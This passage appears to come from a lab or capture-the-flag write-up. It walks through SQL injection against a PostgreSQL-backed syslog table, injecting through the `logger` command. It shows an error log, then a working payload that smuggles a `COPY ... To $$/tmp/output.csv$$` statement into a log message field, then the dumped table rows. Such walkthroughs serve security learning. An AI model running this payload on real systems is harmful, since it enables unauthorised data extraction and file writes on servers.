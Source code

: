 Another error:

```

2019-09-01 14:07:05.018 EDT [15701] postgres@syslog ERROR:  syntax error at or near "14194" at character 115
2019-09-01 14:07:05.018 EDT [15701] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To 14194/tmp/output.csv14194 With CSV;-- -','2019-09-01 18:07:05')

```

This is interesting, because the `$$` seems to have reached bash, where it was evaluated as the current pid. I try now to escape those:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To \$$/tmp/output.csv\$$ With CSV;-- -"

```

No error. And I see a table dump in `/tmp/output.csv`:

```

3,,,,,,, test message\\\,,,,,,,,,,,,,,,,
4,,,,,,, test message\\\,,,,,,,,,,,,,,,,
5,,,,,,, test message\\\,,,,,,,,,,,,,,,,
8,,,2019-09-01 14:48:17,,,," test message13348,null); select * from syslog_liness --",,,,,,,,,,,,,,,,
9,,,2019-09-01 14:48:35,,,," test13348, 13348test13348); --",,,,,,,,,,,,,,,,
10,,,2019-09-01 14:48:38,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
11,,,2019-09-01 14:48:46,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
12,,,2019-09-01 14:48:56,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
13,,,2019-09-01 14:50:00,,,, $,,,,,,,,,,,,,,,,
14,,,2019-09-01 14:50:08,,,, 13348,,,,,,,,,,,,,,,,
15,,,,,,, \\\,,,,,,,,,,,,,,,,
16,,,,,,, \\\,,,,,,,,,,,,,,,,
19,,,,,,, sd\\\,,,,,,,,,,,,,,,,
22,,,,,,, sd\\\,,,,,,,,,,,,,,,,
23,,,,,,, sd\\\,,,,,,,,,,,,,,,,
24,,,,,,, sd\\\,,,,,,,,,,,,,,,,
25,,,,,,, sd\\\,,,,,,,,,,,,,,,,
26,,,,,,, sd\\\,,,,,,,,,,,,,,,,
31,,,,,,, sd\\\,,,,,,,,,,,,,,,,
32,,,,,,, sd\\\,,,,,,,,,,,,,,,,
33,,,2019-09-01 17:45:02,,,, test,,,,,,,,,,,,,,,,
34,,,,,,, test\,,,,,,,,,,,,,,,,
35,,,,,,, test\,,,,,,,,,,,,,,,,
36,,,,,,, test\,,,,,,,,,,,,,,,,
37,,,,,,, test\,,,,,,,,,,,,,,,,
38,,,,,,, test\,,,,,,,,,,,,,,,,
41,,,,,,, test\,,,,,,,,,,,,,,,,
44,,,,,,, sd\,,,,,,,,,,,,,,,,
45,,,,,,, sd\,,,,,,,,,,,,,,,,

```
